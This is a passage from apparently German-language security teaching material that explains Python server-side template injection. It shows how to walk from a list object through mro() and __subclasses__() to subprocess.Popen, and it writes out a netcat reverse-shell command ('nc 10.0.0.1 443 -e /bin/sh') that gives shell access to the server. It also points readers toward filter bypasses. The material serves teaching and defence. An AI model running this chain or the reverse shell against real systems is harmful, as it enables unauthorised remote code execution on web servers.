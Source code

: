 In Python kann über das Attribut \_\_class\_\_ auf die Klasse eines Objekts zugegriffen werden, die Methode mro liefert sowohl die eigene Klasse als auch alle Elternklassen eines Objektes:

\begin{verbatim}
somelist = [1,2,3]
somelist.__class__         # -> <type 'list'>
somelist.__class__.mro()   # -> [<type 'list'>, <type 'object'>]
obj_class = somelist.__class__.mro()[1]
\end{verbatim}

Somit erhaltne wir über ,,somelist.\_\_class\_\_.mro()'' alle Klassen (inklusive vererbter Klassen) des Objekts ,,somelist''. In Python erben alle Klassen von der Elternklasse ,,Object'' welche wir über die Array-Position 1 selektieren und der Variablen ,,obj\_class'' zuweisen. Klassen in Python besitzen die Methode ,,\_\_subclasses\_\_'' welche eine Liste von allen aktuell bekannten Subklassen zurück liefert. Diese Liste ist dynamisch sowohl die Elemente, als auch die Reihung jener, kann zur Laufzeit variieren.

Ein Angreifer kann diese Liste ausgeben und eine potentiell verwundbare Klasse, wie z.B. ,,subprocess.Popen'' suchen und über den Index diese Klasse selektionen. Nehmen wir an, dass diese Klasse in unserem Beispiel auf Array Position 42 vorhandne war. Durch Hinzufügen von ,,()'' wird nun der Konstruktor der Klasse aufgerufen, hierbei können Parameter angegeben werden. Bei ,,Popen'' kann ein Array mit Parametern übergeben werden. Diese werden zusammenkopiert und beim Aufruf des Konstruktors als Systemkommando ausgeführt:

\begin{verbatim}
obj_class = somelist.__class__.mro()[1]
obj_class.__subclasses__()[42]   # -> <class 'subprocess.Popen'>
obj_class.__subclasses__[42](["nc", "10.0.0.1", "443", "-e", "/bin/sh"])
\end{verbatim}

Bei diesem Beispiel wird somit als Kommando ,,ns 10.0.0.1 443 -e /bin/sh'' aufgerufen: dieses Kommando baut eine reverse-shell auf, ein Angreifer erhält auf diese Weise Shell-Zugriff auf den Server mit den Rechten der Web-Applikation.

Webapplikationen versuchen häufig, Benutzereingaben in Templates auf Schadcode hin zu überprüfen. Dies ist problematisch da Templates viele Möglichkeiten bieten, Schadcode zu verschleiern und auf diese Weise Absicherungen zu umgehen\footnote{siehe auch \url{https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/}}. Als Angreifer sucht man in diesem Fall am Besten nach ,,bypass'' und dem Namen der verwendeten Template-Engine.

